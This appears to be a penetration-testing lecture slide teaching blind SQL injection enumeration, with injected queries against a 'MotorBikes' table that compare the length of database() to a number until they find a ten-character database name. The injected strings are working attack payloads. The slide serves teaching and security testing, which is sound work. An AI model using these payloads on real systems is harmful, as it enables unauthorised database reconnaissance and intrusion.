

# Penetration Testing
SQL injection - Enumeration.
Enumerate database name lengths to detect a database.

SELECT Id, Name, Model FROM MotorBikes WHERE CC = '1000
' and Length((database()))<32 and 'x'='x' -- '
SELECT Id, Name, Model FROM MotorBikes WHERE CC = '1000
' and Length((database()))=10 and 'x'='x' -- '
Our Database’s name is pentestsql (10 characters long)